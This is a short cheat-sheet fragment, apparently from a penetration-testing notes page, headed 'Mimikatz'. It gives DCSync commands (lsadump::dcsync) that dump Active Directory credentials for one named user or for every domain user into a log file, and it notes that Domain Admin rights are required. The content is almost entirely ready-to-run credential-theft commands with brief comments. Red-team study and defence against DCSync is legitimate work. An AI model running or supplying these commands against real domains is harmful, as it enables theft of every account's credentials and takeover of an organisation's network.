 #mimikatz 
### Mimikatz
- Requires "Domain Admins" privs.
```powershell
# Dump credentails for a single user
lsadump::dcsync /domain:mydomain.local /user:<username>

# Dump credentials of all the domain user
log myfile.txt
lsadump::dcsync /domain:mydomain.local /all
```